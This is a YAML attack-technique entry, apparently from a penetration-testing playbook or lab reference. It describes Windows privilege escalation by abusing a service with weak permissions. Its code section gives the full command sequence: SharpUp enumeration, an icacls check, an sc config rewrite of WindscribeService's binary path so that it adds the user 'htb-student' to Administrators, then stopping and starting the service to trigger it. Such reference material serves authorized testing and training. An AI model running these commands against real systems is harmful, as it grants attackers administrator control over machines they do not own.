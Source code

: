 ```yaml
---
description: |
  This attack abuses weak service permissions by modifying a misconfigured Windows service to execute attacker-controlled code as SYSTEM.
  By changing the service binary path (ImagePath) or replacing the binary, an unprivileged user can escalate to SYSTEM when the service is started.
  
  Command Reference:
    SharpUp.exe audit, icacls, sc config, sc stop, sc start, accesschk.exe, net localgroup
      Target: Windows service with weak ACLs (e.g., WindscribeService)

command: |
  # Enumerate modifiable services
  SharpUp.exe audit

code: |
  # 1. Identify weak service ACLs
  SharpUp.exe audit

  # 2. Confirm write permissions on service binary
  icacls "C:\Program Files (x86)\Windscribe\WindscribeService.exe"  # BUILTIN\Users or Authenticated Users have (F)

  # 3. Modify service image path to run privileged command
  sc config WindscribeService binpath= "cmd /c net localgroup administrators htb-student /add"

  # 4. Stop service to invoke the new ImagePath
  sc stop WindscribeService

  # 5. Start service to execute the cmd and add user to Administrators
  sc start WindscribeService

  # 6. Verify escalation to SYSTEM by checking local admin group membership
  net localgroup administrators

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - Privilege Escalation
references:
  - https://attack.mitre.org/techniques/T1574/005
  - https://docs.microsoft.com/windows-server/administration/windows-commands/sc
---
```

